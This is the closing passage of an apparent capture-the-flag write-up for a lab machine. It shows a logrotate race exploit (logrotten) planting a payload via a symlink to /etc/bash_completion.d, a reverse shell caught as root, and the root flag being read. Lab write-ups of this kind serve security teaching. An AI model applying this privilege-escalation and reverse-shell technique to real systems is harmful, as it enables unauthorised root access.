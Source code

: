 On another `ssh` session:

{% highlight bash %}
reader@book:~/backups$ echo something >> access.log
{% endhighlight %}

On current `ssh` session again:
{% highlight bash %}
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
{% endhighlight %}

# root.txt

`logrotten` has successfully created a symbolic link of our payload to `/etc/bash_completion.d`, so now we just need to run `/bin/bash` to force the execution of our payload and voila, we caught the shell as root!

{% highlight bash %}
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.176] 49512
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
84daXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}



## Rooted ! Thank you for reading and look forward for more writeups and articles !
